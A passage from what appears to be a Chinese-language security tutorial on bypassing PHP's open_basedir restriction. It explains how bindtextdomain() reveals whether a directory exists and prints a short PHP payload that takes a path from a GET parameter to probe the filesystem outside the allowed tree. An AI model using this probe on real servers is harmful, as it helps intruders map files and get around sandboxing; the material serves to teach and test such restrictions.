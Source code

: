 如果php文件直接在Web目录的子目录的话，就可不用创建相对可上跳的open_basedir了。

## 0x06 利用bindtextdomain()函数Bypass

### bindtextdomain()函数

(PHP 4, PHP 5, PHP 7)

bindtextdomain()函数用于绑定domain到某个目录的函数。

函数定义如下：

```
bindtextdomain ( string $domain , string $directory ) : string
```

### Bypass

利用原理是基于报错：bindtextdomain()函数的第二个参数\$directory是一个文件路径，它会在\$directory存在的时候返回\$directory，不存在则返回false。

payload：

```php
<?php
printf('<b>open_basedir: %s</b><br />',ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

成功访问到存在的文件是会返回当前文件的路径的：

![image-20231120130847406](assets/image-20231120130847406.png)

若访问的文件不存在则返回false：

![image-20231120130857899](assets/image-20231120130857899.png)
